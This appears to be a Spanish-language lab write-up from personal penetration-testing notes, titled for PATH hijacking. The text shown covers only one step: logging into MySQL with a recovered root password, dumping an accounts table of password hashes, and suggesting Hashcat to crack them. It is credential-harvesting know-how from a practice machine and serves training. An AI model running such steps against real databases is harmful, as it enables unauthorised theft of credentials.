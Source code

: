 
# PATH Hijacking
## Escalada de privilegios

**Nota:** para un tratamiento de la TTY que permita hacer `ctrl+c`, `ctrl+l`, y otras utilidades de una bash funcional, visitar [TTY Interactiva](../../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

Acción: desde la máquina comprometida seguimos la siguiente secuencia. Recordemos el plan, como hemos ganado acceso, ahora tratamos de obtener credenciales desde la base de datos MySQL

```bash 
mysql -uroot -p  # introducimos la contraseña encontrada --> mySQL_p@ssw0rd!:)
```

Resultado: 

```bash
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 65
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

Acción: tratamos de listar la información de esta base de datos. Para una explicación de estos comandos ver [SQLi](../../../Bases%20de%20datos%20db/SQL/Mariadb/Mariadb%20-%20inyección%20SQL.md)

```bash 
show databases;
use previse;
show tables;
select * from accounts;
```

Resultado:

```bash 
+----+-------------+------------------------------------+---------------------+
| id | username    | password                           | created_at          |
+----+-------------+------------------------------------+---------------------+
|  1 | m4lwhere    | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | Metahumo123 | $1$🧂llol$orWTo1HYbAVFCHThcDLPB0 | 2025-06-16 13:55:26 |
+----+-------------+------------------------------------+---------------------+
```

Explicación: tenemos al usuario `m4lwhere` con una contraseña hasheada `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.` podemos tratar de romperla con [Hashcat](../../../Herramientas/Fuerza%20Bruta/Hashcat.md)

---